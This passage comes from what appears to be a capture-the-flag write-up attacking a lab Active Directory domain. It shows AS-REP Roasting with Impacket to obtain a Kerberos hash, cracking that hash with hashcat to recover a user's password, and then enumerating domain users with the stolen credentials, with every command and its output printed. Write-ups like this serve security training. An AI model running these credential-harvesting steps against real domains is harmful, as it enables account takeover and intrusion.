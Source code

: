Based on the usernames in the <code>surat-rasmi.pdf</code> file, we can try to get the hash of the users by **AS-REP Roasting** attacks and save it into <code>asrep.hashes</code> to crack it later:
```
┌──(kali㉿kali)-[/mnt/…/2025/3108CTF/Boot2Root/Kapal Bocor]
└─$ python3 /opt/impacket/examples/GetNPUsers.py bahtera.corp/ -usersfile users.txt -format hashcat -outputfile asrep.hashes -dc-ip 192.168.211.142
Impacket v0.13.0.dev0+20250808.170117.00f43cf7 - Copyright Fortra, LLC and its affiliated companies 

[-] User zahra.zainal doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User suresh.maniam doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$lc.wei@BAHTERA.CORP:3cd687d7a32400a12dba6467cebc46b1$ffded0096b52ab70d95d2c5cc753dd69068bced0564200a513333e899327ea229ca8cc7ef8577df0efba9727c4d86664d6a2f6cf6ab752e3ccbc214ae65054f225d84a17d3cc7982dd6f030b7d53e1adbab92d4adbb88c6bfda1a6a0bf4d928598a18db0b736aac71b856274c80e7fe65a60a55a0ab7cdc42db1ad0e14af0a7f5df235edd99c5f38ada0cd67313ebb6332d3771a3033b8a785c1297e09a5662ef73e3cb8a89ce81a6fa397637585a8e1835a9dfe471ae01cec6e5d3f37d7b12463c1124f18514df0b88ad9194980dc2c40cc68f8925c1f5c50e938b8401ddeb872b38d06854d2ac0aa46f4bc
[-] User nurhani.norazman doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Then, **crack the hash** that we have found:
```
┌──(kali㉿kali)-[/mnt/…/2025/3108CTF/Boot2Root/Kapal Bocor]
└─$ hashcat -m 18200 -a 0 asrep.hashes /usr/share/wordlists/rockyou.txt --force
.
.
.
$krb5asrep$23$lc.wei@BAHTERA.CORP:d08399cdafa2ebbfb8abcf3993ccc5e3$2d7e94d473b60ba26ad9a4900b7b6b5ac5158b7005130716165dcac6668b3d4885b8bdb7543055b826e3777c2d04495e90ac4ff13c871d0d37037a033e715039696914dbf8cea7a119159f3038cdd951952d710402803eeaf7feb3ea63663db3866ccbc1e79f70c3801753e2c0d7dfe10453c3966b60540457a5c30c6fcd4511d7f094832402715200e345170cebe33c5981f4f553fc864b4c26e54be531335d7087ac6b49c1e40b7d6f41ac922349b1c028de3c7bedcd0f503eb2913d34f4555bf8b7c63d142b5764e3f0afce0cf5c087e082cd23ab709210d4570d94cc0dd9ed1b7e9450a68f13a60dab28:I_am_the_one
.
.
.
```

After we got the user <code>lc.wei</code> credentials, we can try to **enumerate more users from the domain** by running the command:
```
┌──(kali㉿kali)-[/mnt/…/2025/3108CTF/Boot2Root/Kapal Bocor]
└─$ python3 /opt/impacket/examples/GetADUsers.py bahtera.corp/lc.wei:'I_am_the_one' -dc-ip 192.168.211.142 -all
Impacket v0.13.0.dev0+20250808.170117.00f43cf7 - Copyright Fortra, LLC and its affiliated companies 

[*] Querying 192.168.211.142 for information about domain.
Name                  Email                           PasswordLastSet      LastLogon           
--------------------  ------------------------------  -------------------  -------------------
Administrator                                         2025-07-09 06:38:48.038803  2025-08-11 22:13:23.075938 
Guest                                                 <never>              <never>             
krbtgt                                                2025-07-09 06:55:43.247947  <never>             
nurhani.norazman                                      2025-07-09 07:38:15.934957  <never>             
zahra.zainal                                          2025-07-09 07:39:24.934799  <never>             
suresh.maniam                                         2025-07-09 07:40:35.443007  <never>             
lc.wei                                                2025-07-09 07:50:48.525916  2025-08-31 16:01:52.600789 
tc.wei                                                2025-07-09 07:52:13.255693  <never>             
```